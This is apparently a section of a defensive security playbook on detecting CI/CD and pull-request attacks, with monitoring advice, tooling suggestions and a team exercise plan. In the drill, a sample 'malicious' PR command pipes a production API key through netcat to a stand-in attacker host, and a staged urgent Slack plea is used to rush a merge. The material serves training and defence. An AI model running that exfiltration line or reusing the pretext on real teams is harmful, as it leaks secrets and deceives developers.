 ### Practical
- **Log Everything in CI**: Ensure your CI jobs log all executed commands, network connections made, and files accessed.
- **Establish a Baseline**: Understand what normal CI/CD behavior looks like. What domains do your builds typically connect to? What processes do they normally run?
- **Set Up Anomaly Alerts**: Create alerts for when a CI job deviates from the baseline. For example, alert when a test job tries to make an outbound network connection to an unknown IP address, or when a script accesses a secret it's not supposed to.
- **Audit Git Activity**: Monitor for unusual commit patterns, such as a new contributor force-pushing or modifying commit author information.

### Tools/Techniques
- **Runtime Security Monitoring**: Tools like [Falco](https://falco.org/) or [Tetragon](https://github.com/cilium/tetragon) can be deployed to your CI runners to monitor system calls and detect suspicious behavior in real-time (e.g., "Process curl opened a network connection to a non-allowed IP").
- **Log Aggregation Platforms**: Send all your CI/CD and Git server logs to a central platform like [OpenSearch](https://opensearch.org/), Splunk, or Datadog. This allows you to search, analyze, and create dashboards and alerts.
- **[Socket.dev](https://socket.dev)** or **[Snyk](https://snyk.io/)**: These tools can detect when a newly added open-source dependency exhibits risky behavior (like network access or filesystem writes) during installation, which can be a sign of a trojanized package.
- **[Git-Secrets](https://github.com/awslabs/git-secrets)**: A pre-commit hook to prevent you from accidentally committing secrets in the first place.

### Metrics/Signal
- **Alert on Unexpected Network Egress**: A CI job for a documentation change trying to connect to a random IP address is a major red flag.
- **Alert on Unexpected Process Execution**: A build script spawning `nmap` or `whoami` is highly suspicious.
- **Spike in Secret Access**: A sudden increase in the number of secrets being accessed by a specific CI job could indicate a breach.

{% endblock %}
{% block type='battlecard' text='eXercise' %}
### Explanation
This stage is about proactive practice. Just like a fire drill, you need to test your defenses and your team's response to a simulated attack. By running controlled security exercises, developers build the "muscle memory" needed to spot and react to social engineering tactics before they cause real damage.

### Insight
Reading about a threat is not the same as experiencing it. A well-run exercise will expose the gaps between your documented process and what people actually do when faced with a plausible, urgent request. The goal is not to "catch" people, but to learn and improve together.

### Practical
1.  **Plan a Tabletop Exercise**: Schedule a 1-hour meeting. Present the team with the exact scenario described above. "A trusted new contributor has submitted an urgent PR to fix the build. It looks like this... What do you do?" Walk through the process step-by-step and document the team's responses.
2.  **Run a Live Fire Drill**:
*   Create a new, temporary GitHub account.
*   Use this account to submit a few harmless PRs to a non-production repository over a week to build a history.
*   Submit a "malicious" PR. It doesn't need to be truly malicious; it can be something obvious upon inspection, like `echo "export API_KEY=$PROD_API_KEY" | nc evil-server.com 1337`.
*   Post a message in the team's Slack channel: "@here, the build is broken! Can someone please review and merge [link to PR] from this new contributor so we can get unblocked?"
*   Observe the response. Who reviews it? How thoroughly? Do they merge it?
3.  **Conduct a Post-Mortem**: After the exercise, hold a blameless post-mortem. What went well? Where did the process break down? What can be improved? Update your documentation and branch protection rules based on the findings.